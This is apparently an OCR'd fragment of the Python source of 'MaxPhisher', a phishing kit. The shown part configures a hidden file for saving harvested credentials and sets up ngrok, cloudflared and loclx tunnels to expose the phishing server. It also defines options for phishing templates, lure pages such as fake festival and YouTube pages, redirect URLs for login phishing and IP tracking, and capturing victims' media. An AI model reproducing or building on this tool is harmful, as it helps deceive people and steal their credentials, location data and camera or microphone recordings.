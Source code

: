 email = ""
password = ""
receiver = ""
mask = ""
nr_command = f"{tunneler_dir}/ngrok"
cf_command = f"{tunneler_dir}/cloudflared"
lx_command = f"{tunneler_dir}/loclx"
if isdir("/data/data/com.termux/files/home"):
    termux = True
    nr_command = f"termux-chroot {nr_command}"
    cf_command = f"termux-chroot {cf_command}"
    lx_command = f"termux-chroot {lx_command}"
    saved_file = "/sdcard/.creds.txt"
else:
    termux = False
    saved_file = f"{home}/.creds.txt"


print(f"\n{info}Please wait!{nc}")


default_port = 8080
default_tunneler = "Cloudflared"
default_fest = "Birthday"
default_ytid = "6hHmkInZkMQ"
default_duration = 5000
default_type = "2"
default_template = "1"


if termux:
    default_dir = "/sdcard/Media"
else:
    default_dir = f"{home}/Media"
if not isdir(default_dir):
   mkdir(default_dir)

argparser = ArgumentParser()

argparser.add_argument("-p", "--port", type=int, default=default_port, help=f"MaxPhisher's server port [Default : {default_port}]")
argparser.add_argument("-t", "--type", help="MaxPhisher's phishing type index [Default : null]")
argparser.add_argument("-o", "--option", help="MaxPhisher's template index [ Default : null ]")
argparser.add_argument("-T", "--tunneler", default=default_tunneler, help=f"Tunneler to be chosen while url shortening [Default : {default_tunneler}]")
argparser.add_argument("-r", "--region", help="Region for ngrok and loclx [Default: auto]")
argparser.add_argument("-S", "--subdomain", help="Subdomain for ngrok and loclx [Pro Account] (Default: null)")
argparser.add_argument("-d", "--directory", default=default_dir, help=f"Directory where media files will be saved [Default : {default_dir}]")
argparser.add_argument("-f", "--fest", default=default_fest, help=f"Festival name for fest template [Default: {default_fest}]")
argparser.add_argument("-i", "--ytid", default=default_ytid, help=f"Youtube video ID for yttv template [Default : {default_ytid} (NASA Video)]")
argparser.add_argument("-u", "--url", help="Redirection url for ip-tracking or login phishing [Default : null]")
argparser.add_argument("-s", "--duration", type=int, default=default_duration, help=f"Media duration while capturing [Default : {default_duration}(ms)]")
argparser.add_argument("-m", "--mode", help="Mode of MaxPhisher [Default: normal]")
argparser.add_argument("--nokey", help="Use localtunnel without ssh key [Default: False]", action="store_false")
argparser.add_argument("--noupdate", help="Skip update checking [Default : False]", action="store_false")
